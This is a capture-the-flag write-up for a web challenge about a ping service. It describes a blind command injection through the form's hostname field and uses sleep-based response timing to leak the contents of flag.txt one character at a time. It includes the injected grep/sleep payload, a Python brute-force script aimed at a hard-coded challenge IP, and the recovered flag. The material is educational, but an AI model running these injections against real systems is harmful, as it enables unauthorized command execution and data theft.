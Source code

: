 so basically
for ping pong undermaintance
if u look at the source code
u realize that the function to excute a command is also called
this means we can still use command injection
however looking at how the page is rendered
we see that no output from the excuted command will be printed
this means we must use some other way to get information
at first i thought that i could modify the html to add the flag into the bottom
this way
the flag would render at the bottom of the screen
however i believe some commands are blocked such as rm as it would ruin the infrastructure

after a lot of thinking and testing
i found that the sleep command works
and causes the page longer to load results
this means that a timing attck is possible

so we must find a way to set different times for testing if a string is in the flag or not
we can use the payload

```bash
grep LITCTF{text flag.txt || sleep $?
```

using this commmand we also avoid using url encoded character which would not work in our command

testing this command out we can see that a proper prefix such as LITCTF causes the website to load almost instantly
however if we dont use a substring such at adsklfjhlkasjdfhkl it would cause the website to take over a second to load

now that we have this command 

we can test the prefix one character at a time

setting up a python program we can send post request to the website testing the prefixes
finding which character takes the least amount of time
appending that to the known prefix and then testing the next character
we end this once we get the closing brace

and here is the python script to send injections 

```py
import requests
import string

charlist = string.ascii_lowercase+string.digits+"_}"
print(charlist)


text = "LITCTF{"

url = 'http://34.130.180.82:59880/'

headers = {
    'Host': url,
    # 'Content-Length': '11',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': url,
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Referer': url,
    # 'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'en-US,en;q=0.9',
    'Connection': 'close',
}

data = {
    'hostname': 'hi',
}



while True:
    ti = dict();
    for x in charlist:
        ti[x] = 0

    for x in charlist:
        teststr = text+x
        injection = f";grep -q {teststr} flag.txt || sleep $(($?*1))"
        data = {'hostname': injection}
        req = requests.post(url, headers=headers, data=data)
        print(teststr,req.elapsed.total_seconds())
        ti[x] = req.elapsed.total_seconds()
    
    bestchr = ""
    besttime = 1000
    for x in charlist:
        if(ti[x] < besttime):
            besttime = ti[x]
            bestchr = x
    text+=bestchr
    print(text)
    if(bestchr == '}'): break

```

after a while of using this program
I was able to retrieve the flag

```txt
LITCTF{c4refu1_fr}
```

YOUR DID IT :D
